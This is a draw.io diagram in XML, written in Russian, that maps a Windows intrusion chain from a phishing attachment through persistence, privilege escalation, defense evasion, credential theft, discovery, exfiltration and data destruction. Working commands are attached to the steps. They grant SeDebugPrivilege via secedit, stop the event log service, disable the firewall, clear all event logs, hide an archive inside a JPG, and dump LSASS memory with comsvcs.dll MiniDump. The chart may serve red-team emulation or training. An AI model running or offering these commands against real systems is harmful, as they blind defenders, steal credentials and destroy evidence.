

The diagram above was exported from draw.io. Its source (the exported page's mxGraphModel, read from the mxfile embedded in the PNG):
<mxGraphModel dx="874" dy="541" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="827" pageHeight="1169" math="0" shadow="0">
  <root>
    <mxCell id="0" />
    <mxCell id="1" parent="0" />
    <mxCell id="7" style="edgeStyle=none;html=1;exitX=0.25;exitY=1;exitDx=0;exitDy=0;entryX=0.25;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="2" target="6">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="2" value="Первоначальный доступ" style="swimlane;horizontal=0;whiteSpace=wrap;html=1;startSize=50;" vertex="1" parent="1">
      <mxGeometry x="10" y="10" width="280" height="130" as="geometry" />
    </mxCell>
    <mxCell id="3" value="Теневая (drive-by) загрузка" style="swimlane;whiteSpace=wrap;html=1;" vertex="1" parent="2">
      <mxGeometry x="70" y="20" width="190" height="90" as="geometry" />
    </mxCell>
    <mxCell id="4" value="&lt;span style=&quot;font-size: 12px;&quot;&gt;Целевой фишинг с вложением&lt;/span&gt;" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="3">
      <mxGeometry x="10" y="30" width="170" height="50" as="geometry" />
    </mxCell>
    <mxCell id="13" style="edgeStyle=none;html=1;exitX=0.25;exitY=1;exitDx=0;exitDy=0;entryX=0.25;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="6" target="10">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="6" value="Выполнение" style="swimlane;horizontal=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
      <mxGeometry x="10" y="170" width="280" height="90" as="geometry" />
    </mxCell>
    <mxCell id="8" value="Выполение с участием пользователя" style="swimlane;whiteSpace=wrap;html=1;" vertex="1" parent="6">
      <mxGeometry x="30" y="10" width="240" height="70" as="geometry" />
    </mxCell>
    <mxCell id="9" value="&lt;span style=&quot;font-size: 12px;&quot;&gt;Вредоносный файл&amp;nbsp;&lt;/span&gt;" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="8">
      <mxGeometry x="10" y="30" width="220" height="30" as="geometry" />
    </mxCell>
    <mxCell id="18" style="edgeStyle=none;html=1;exitX=0.25;exitY=1;exitDx=0;exitDy=0;entryX=0.25;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="10" target="15">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="10" value="Закрепление" style="swimlane;horizontal=0;whiteSpace=wrap;html=1;startSize=23;" vertex="1" parent="1">
      <mxGeometry x="10" y="290" width="280" height="110" as="geometry" />
    </mxCell>
    <mxCell id="11" value="Автозапуск при загрузке или&lt;br&gt;входе в систему" style="swimlane;whiteSpace=wrap;html=1;startSize=40;" vertex="1" parent="10">
      <mxGeometry x="30" y="10" width="240" height="90" as="geometry" />
    </mxCell>
    <mxCell id="12" value="&lt;span style=&quot;font-size: 12px;&quot;&gt;Папка автозагрузки&lt;/span&gt;" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="11">
      <mxGeometry x="10" y="50" width="220" height="30" as="geometry" />
    </mxCell>
    <mxCell id="22" style="edgeStyle=none;html=1;exitX=0.25;exitY=1;exitDx=0;exitDy=0;entryX=0.25;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="15" target="19">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="15" value="Повышение привелегий" style="swimlane;horizontal=0;whiteSpace=wrap;html=1;startSize=40;" vertex="1" parent="1">
      <mxGeometry x="10" y="430" width="280" height="90" as="geometry" />
    </mxCell>
    <mxCell id="17" value="&lt;span style=&quot;font-weight: 700;&quot;&gt;Изменение групповой политики&lt;/span&gt;" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="15">
      <mxGeometry x="50" y="10" width="220" height="70" as="geometry" />
    </mxCell>
    <mxCell id="34" style="edgeStyle=none;html=1;exitX=0.25;exitY=1;exitDx=0;exitDy=0;entryX=0.25;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="19" target="27">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="19" value="Предотвращение обнаружения" style="swimlane;horizontal=0;whiteSpace=wrap;html=1;startSize=23;" vertex="1" parent="1">
      <mxGeometry x="10" y="550" width="280" height="270" as="geometry" />
    </mxCell>
    <mxCell id="20" value="Ослабление защиты" style="swimlane;whiteSpace=wrap;html=1;startSize=30;" vertex="1" parent="19">
      <mxGeometry x="30" y="10" width="240" height="120" as="geometry" />
    </mxCell>
    <mxCell id="21" value="&lt;span style=&quot;font-size: 12px;&quot;&gt;Отключение журналирования&lt;br&gt;событий Windows&lt;/span&gt;" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="20">
      <mxGeometry x="10" y="40" width="220" height="30" as="geometry" />
    </mxCell>
    <mxCell id="23" value="&lt;span style=&quot;font-size: 12px;&quot;&gt;Отключение межсетевого экрана&lt;/span&gt;" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="20">
      <mxGeometry x="10" y="80" width="220" height="30" as="geometry" />
    </mxCell>
    <mxCell id="24" value="Удаление признаков&lt;br&gt;активности из системы" style="swimlane;whiteSpace=wrap;html=1;startSize=30;" vertex="1" parent="19">
      <mxGeometry x="30" y="140" width="240" height="120" as="geometry" />
    </mxCell>
    <mxCell id="25" value="&lt;span style=&quot;font-size: 12px;&quot;&gt;Очистка журналов событий Windows&lt;/span&gt;" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="24">
      <mxGeometry x="10" y="40" width="220" height="30" as="geometry" />
    </mxCell>
    <mxCell id="26" value="&lt;span style=&quot;font-size: 12px;&quot;&gt;Удаление файлов&lt;/span&gt;" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="24">
      <mxGeometry x="10" y="80" width="220" height="30" as="geometry" />
    </mxCell>
    <mxCell id="40" style="edgeStyle=none;html=1;exitX=0.25;exitY=1;exitDx=0;exitDy=0;entryX=0.25;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="27" target="35">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="27" value="Получение учетных данных" style="swimlane;horizontal=0;whiteSpace=wrap;html=1;startSize=23;" vertex="1" parent="1">
      <mxGeometry x="10" y="850" width="280" height="190" as="geometry" />
    </mxCell>
    <mxCell id="28" value="Получение дампа учетных данных" style="swimlane;whiteSpace=wrap;html=1;startSize=30;" vertex="1" parent="27">
      <mxGeometry x="30" y="10" width="240" height="80" as="geometry" />
    </mxCell>
    <mxCell id="29" value="&lt;span style=&quot;font-size: 12px;&quot;&gt;Память процесса LSASS&lt;/span&gt;" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="28">
      <mxGeometry x="10" y="40" width="220" height="30" as="geometry" />
    </mxCell>
    <mxCell id="31" value="Учетные данные их хранилищ паролей" style="swimlane;whiteSpace=wrap;html=1;startSize=30;" vertex="1" parent="27">
      <mxGeometry x="30" y="100" width="240" height="80" as="geometry" />
    </mxCell>
    <mxCell id="33" value="&lt;span style=&quot;font-size: 12px;&quot;&gt;Учетные данные из браузеров&lt;/span&gt;" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="31">
      <mxGeometry x="10" y="40" width="220" height="30" as="geometry" />
    </mxCell>
    <mxCell id="52" style="edgeStyle=none;html=1;exitX=0.25;exitY=1;exitDx=0;exitDy=0;entryX=0.25;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="35" target="47">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="35" value="Исследование" style="swimlane;horizontal=0;whiteSpace=wrap;html=1;startSize=23;" vertex="1" parent="1">
      <mxGeometry x="10" y="1070" width="280" height="340" as="geometry" />
    </mxCell>
    <mxCell id="36" value="Исследование групп разрешений" style="swimlane;whiteSpace=wrap;html=1;startSize=30;" vertex="1" parent="35">
      <mxGeometry x="30" y="50" width="240" height="80" as="geometry" />
    </mxCell>
    <mxCell id="37" value="&lt;span style=&quot;font-size: 12px;&quot;&gt;Локальные группы&lt;/span&gt;" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="36">
      <mxGeometry x="10" y="40" width="220" height="30" as="geometry" />
    </mxCell>
    <mxCell id="41" value="Запросы к реестру" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="35">
      <mxGeometry x="40" y="10" width="220" height="30" as="geometry" />
    </mxCell>
    <mxCell id="42" value="Исследование конфигурации сети" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="35">
      <mxGeometry x="40" y="140" width="220" height="30" as="geometry" />
    </mxCell>
    <mxCell id="43" value="Исследование общих&lt;br&gt;сетевых ресурсов" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="35">
      <mxGeometry x="40" y="180" width="220" height="30" as="geometry" />
    </mxCell>
    <mxCell id="44" value="Исследование открытых приложений" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="35">
      <mxGeometry x="40" y="220" width="220" height="30" as="geometry" />
    </mxCell>
    <mxCell id="45" value="Исследование системного времени" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="35">
      <mxGeometry x="40" y="260" width="220" height="30" as="geometry" />
    </mxCell>
    <mxCell id="46" value="Исследование файлов и каталогов" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="35">
      <mxGeometry x="40" y="300" width="220" height="30" as="geometry" />
    </mxCell>
    <mxCell id="60" style="edgeStyle=none;html=1;exitX=0.25;exitY=1;exitDx=0;exitDy=0;entryX=0.25;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="47" target="54">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="47" value="Сбор данных" style="swimlane;horizontal=0;whiteSpace=wrap;html=1;startSize=23;" vertex="1" parent="1">
      <mxGeometry x="10" y="1440" width="280" height="230" as="geometry" />
    </mxCell>
    <mxCell id="48" value="Архивация собранных данных" style="swimlane;whiteSpace=wrap;html=1;startSize=30;" vertex="1" parent="47">
      <mxGeometry x="30" y="140" width="240" height="80" as="geometry" />
    </mxCell>
    <mxCell id="49" value="&lt;span style=&quot;font-size: 12px;&quot;&gt;Архивация с помощью утилиты&lt;/span&gt;" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="48">
      <mxGeometry x="10" y="40" width="220" height="30" as="geometry" />
    </mxCell>
    <mxCell id="50" value="Промежуточное храниение данных" style="swimlane;whiteSpace=wrap;html=1;startSize=30;" vertex="1" parent="47">
      <mxGeometry x="30" y="10" width="240" height="80" as="geometry" />
    </mxCell>
    <mxCell id="51" value="&lt;span style=&quot;font-size: 12px;&quot;&gt;Локально&lt;/span&gt;" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="50">
      <mxGeometry x="10" y="40" width="220" height="30" as="geometry" />
    </mxCell>
    <mxCell id="53" value="Захват экрана" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="47">
      <mxGeometry x="30" y="100" width="240" height="30" as="geometry" />
    </mxCell>
    <mxCell id="65" style="edgeStyle=none;html=1;exitX=0.25;exitY=1;exitDx=0;exitDy=0;entryX=0.25;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="54" target="61">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="54" value="Эксфильтрация данных" style="swimlane;horizontal=0;whiteSpace=wrap;html=1;startSize=23;" vertex="1" parent="1">
      <mxGeometry x="10" y="1700" width="280" height="150" as="geometry" />
    </mxCell>
    <mxCell id="55" value="Эксфильтрация через вэб-службу" style="swimlane;whiteSpace=wrap;html=1;startSize=30;" vertex="1" parent="54">
      <mxGeometry x="30" y="60" width="240" height="80" as="geometry" />
    </mxCell>
    <mxCell id="56" value="&lt;span style=&quot;font-size: 12px;&quot;&gt;В облачное хранилище&lt;/span&gt;" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="55">
      <mxGeometry x="10" y="40" width="220" height="30" as="geometry" />
    </mxCell>
    <mxCell id="59" value="Ограничение размера&lt;br&gt;передаваемых файлов" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="54">
      <mxGeometry x="30" y="10" width="240" height="40" as="geometry" />
    </mxCell>
    <mxCell id="61" value="Воздействие" style="swimlane;horizontal=0;whiteSpace=wrap;html=1;startSize=23;" vertex="1" parent="1">
      <mxGeometry x="10" y="1880" width="280" height="160" as="geometry" />
    </mxCell>
    <mxCell id="64" value="Уничтожение\Шифрование данных" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="61">
      <mxGeometry x="30" y="60" width="240" height="40" as="geometry" />
    </mxCell>
    <mxCell id="66" value="Остановка службы" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="61">
      <mxGeometry x="30" y="10" width="240" height="40" as="geometry" />
    </mxCell>
    <mxCell id="67" value="Перезагрузка\Завершение работы" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="61">
      <mxGeometry x="30" y="110" width="240" height="40" as="geometry" />
    </mxCell>
    <mxCell id="69" style="edgeStyle=none;html=1;exitX=0;exitY=0.5;exitDx=0;exitDy=0;entryX=1;entryY=0.5;entryDx=0;entryDy=0;rounded=0;startArrow=classic;startFill=1;fillColor=#60a917;strokeColor=#2D7600;strokeWidth=3;" edge="1" parent="1" source="68" target="4">
      <mxGeometry relative="1" as="geometry">
        <Array as="points">
          <mxPoint x="310" y="45" />
          <mxPoint x="310" y="85" />
        </Array>
      </mxGeometry>
    </mxCell>
    <mxCell id="89" style="edgeStyle=none;rounded=0;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeWidth=3;fontSize=8;startArrow=classic;startFill=1;fillColor=#a20025;strokeColor=#6F0000;" edge="1" parent="1" source="68" target="87">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="68" value="Файл EML на машине содержащий ВПО&lt;br&gt;Как вариант файл двойной с архивом" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
      <mxGeometry x="330" y="10" width="150" height="70" as="geometry" />
    </mxCell>
    <mxCell id="71" style="edgeStyle=none;rounded=0;html=1;exitX=0;exitY=0.5;exitDx=0;exitDy=0;entryX=1;entryY=0.5;entryDx=0;entryDy=0;startArrow=classic;startFill=1;fillColor=#60a917;strokeColor=#2D7600;strokeWidth=3;" edge="1" parent="1" source="70" target="9">
      <mxGeometry relative="1" as="geometry">
        <Array as="points">
          <mxPoint x="300" y="200" />
          <mxPoint x="300" y="225" />
        </Array>
      </mxGeometry>
    </mxCell>
    <mxCell id="70" value="Запуск с запросом UAC" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
      <mxGeometry x="330" y="170" width="120" height="60" as="geometry" />
    </mxCell>
    <mxCell id="73" style="edgeStyle=none;rounded=0;html=1;exitX=0;exitY=0.5;exitDx=0;exitDy=0;entryX=1;entryY=0.5;entryDx=0;entryDy=0;strokeWidth=3;startArrow=classic;startFill=1;fillColor=#60a917;strokeColor=#2D7600;" edge="1" parent="1" source="72" target="12">
      <mxGeometry relative="1" as="geometry">
        <Array as="points">
          <mxPoint x="300" y="330" />
          <mxPoint x="300" y="365" />
        </Array>
      </mxGeometry>
    </mxCell>
    <mxCell id="72" value="Рахархивация содержимого смежного архива в папку автозагрузки и запуск от туда" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
      <mxGeometry x="330" y="290" width="130" height="80" as="geometry" />
    </mxCell>
    <mxCell id="75" style="edgeStyle=none;rounded=0;html=1;exitX=0;exitY=0.5;exitDx=0;exitDy=0;entryX=1;entryY=0.5;entryDx=0;entryDy=0;strokeWidth=3;startArrow=classic;startFill=1;fillColor=#60a917;strokeColor=#2D7600;" edge="1" parent="1" source="74" target="17">
      <mxGeometry relative="1" as="geometry">
        <Array as="points">
          <mxPoint x="300" y="455" />
          <mxPoint x="300" y="475" />
        </Array>
      </mxGeometry>
    </mxCell>
    <mxCell id="78" style="edgeStyle=none;rounded=0;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeWidth=3;fontSize=8;startArrow=classic;startFill=1;fillColor=#a20025;strokeColor=#6F0000;" edge="1" parent="1" source="74" target="77">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="74" value="Получение привилегии SeDebugPrivilege" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
      <mxGeometry x="330" y="430" width="120" height="50" as="geometry" />
    </mxCell>
    <mxCell id="77" value="&lt;div style=&quot;font-size: 8px;&quot;&gt;&lt;span style=&quot;font-size: 8px;&quot;&gt;secedit /export /cfg secpolicy.inf /areas USER_RIGHTS&lt;/span&gt;&lt;/div&gt;&lt;div style=&quot;font-size: 8px;&quot;&gt;&lt;span style=&quot;font-size: 8px;&quot;&gt;Замена &quot;SeDebugPrivilege = &quot; на &quot;SeDebugPrivilege = *S-1-5-32-544,&quot;&lt;/span&gt;&lt;/div&gt;&lt;div style=&quot;font-size: 8px;&quot;&gt;&lt;span style=&quot;font-size: 8px;&quot;&gt;secedit /configure /db secedit.sdb /cfg secpolicy.inf /overwrite /areas USER_RIGHTS&lt;/span&gt;&lt;/div&gt;" style="rounded=0;whiteSpace=wrap;html=1;fontSize=8;" vertex="1" parent="1">
      <mxGeometry x="500" y="435" width="313" height="40" as="geometry" />
    </mxCell>
    <mxCell id="79" value="Get-EventLog -LogName * | ForEach { Clear-EventLog $_.Log }" style="rounded=0;whiteSpace=wrap;html=1;fontSize=8;" vertex="1" parent="1">
      <mxGeometry x="500" y="730" width="250" height="30" as="geometry" />
    </mxCell>
    <mxCell id="80" style="edgeStyle=none;rounded=0;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeWidth=3;fontSize=8;startArrow=classic;startFill=1;fillColor=#a20025;strokeColor=#6F0000;" edge="1" parent="1" source="25" target="79">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="81" value="rd /s /q MyFolder" style="rounded=0;whiteSpace=wrap;html=1;fontSize=8;" vertex="1" parent="1">
      <mxGeometry x="500" y="770" width="110" height="30" as="geometry" />
    </mxCell>
    <mxCell id="82" style="edgeStyle=none;rounded=0;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeWidth=3;fontSize=8;startArrow=classic;startFill=1;fillColor=#a20025;strokeColor=#6F0000;" edge="1" parent="1" source="26" target="81">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="83" value="netsh advfirewall set allprofiles state off" style="rounded=0;whiteSpace=wrap;html=1;fontSize=8;" vertex="1" parent="1">
      <mxGeometry x="500" y="640" width="160" height="30" as="geometry" />
    </mxCell>
    <mxCell id="84" style="edgeStyle=none;rounded=0;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeWidth=3;fontSize=8;startArrow=classic;startFill=1;fillColor=#a20025;strokeColor=#6F0000;" edge="1" parent="1" source="23" target="83">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="85" value="net stop Eventlog" style="rounded=0;whiteSpace=wrap;html=1;fontSize=8;" vertex="1" parent="1">
      <mxGeometry x="500" y="600" width="90" height="30" as="geometry" />
    </mxCell>
    <mxCell id="86" style="edgeStyle=none;rounded=0;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeWidth=3;fontSize=8;startArrow=classic;startFill=1;fillColor=#a20025;strokeColor=#6F0000;" edge="1" parent="1" source="21" target="85">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="87" value="copy /b image.jpg+archive.rar image2.jpg" style="rounded=0;whiteSpace=wrap;html=1;fontSize=8;" vertex="1" parent="1">
      <mxGeometry x="545" y="35" width="160" height="20" as="geometry" />
    </mxCell>
    <mxCell id="90" value="Powershell -c rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump {ID-of-the-process} $Env:TEMP\my_dump_file.bin full" style="rounded=0;whiteSpace=wrap;html=1;fontSize=8;" vertex="1" parent="1">
      <mxGeometry x="440" y="900" width="340" height="30" as="geometry" />
    </mxCell>
    <mxCell id="91" style="edgeStyle=none;rounded=0;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeWidth=3;fontSize=8;startArrow=classic;startFill=1;fillColor=#a20025;strokeColor=#6F0000;" edge="1" parent="1" source="29" target="90">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="92" value="Как вариант&amp;nbsp;https://hackware.ru/?p=1553" style="rounded=0;whiteSpace=wrap;html=1;fontSize=8;" vertex="1" parent="1">
      <mxGeometry x="440" y="992.5" width="170" height="25" as="geometry" />
    </mxCell>
    <mxCell id="93" style="edgeStyle=none;rounded=0;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;strokeWidth=3;fontSize=8;startArrow=classic;startFill=1;fillColor=#a20025;strokeColor=#6F0000;" edge="1" parent="1" source="33" target="92">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
  </root>
</mxGraphModel>